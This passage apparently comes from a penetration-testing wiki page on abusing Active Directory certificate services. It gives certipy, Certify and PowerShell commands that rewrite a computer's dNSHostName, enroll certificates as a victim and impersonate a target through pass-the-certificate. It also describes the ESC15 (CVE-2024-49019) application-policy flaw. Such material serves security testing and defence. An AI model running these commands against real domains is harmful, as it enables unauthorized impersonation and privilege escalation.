 ```python
conn.unbind()
```

With [certipy](https://github.com/ly4k/Certipy), it is then possible to enroll on a certificate template using the victim credentials

```bash
certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.


=== Windows

From Windows systems, with PowerShell the `dNSHostName` attribute of the victim must be overwritten to be equal to `$TARGET`.

```powershell
$victim = [ADSI]"LDAP://CN=$VICTIM,CN=Computers,DC=domain,DC=local"
$victim.Properties["dNSHostName"].Value = $TARGET
$victim.CommitChanges()
```

Then, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template from the victim session.

```powershell
Certify.exe request /ca:domain\ca /template:$TEMPLATE /machine
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

:::

### (ESC15 - CVE-2024-49019) Arbitrary application policy

> [!NOTE] NOTE
> This privilege escalation has been marked as [CVE-2024-49019](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019) by Microsoft, and will therefore no longer be exploitable on patched systems.

By default, the X509 standard uses EKUs to indicate the possible uses of a certificate. Under Windows, a field called `Application Policy` is added to certificates, and this does the same thing as EKUs, but with a few more options. If both EKUs and *application policies* are present in a certificate, the latter takes precedence.

It turns out that if a certificate template uses **version 1** of the certificate templates, authorises the SAN specification, and if it is possible to enrol on it, then it is possible to request a certificate by specifying an arbitrary user and requesting an arbitrary *application policy*.

> [!TIP] TIP
> Note, however, that specifying "Client Authentication" in *application policy* will only allow **SChannel authentication and not PKINIT**. On the other hand, by specifying "Certificate Request Agent" (`1.3.6.1.4.1.311.20.2.1`), the certificate can be used as an [ESC3](certificate-templates.md#certificate-agent-eku-esc3).
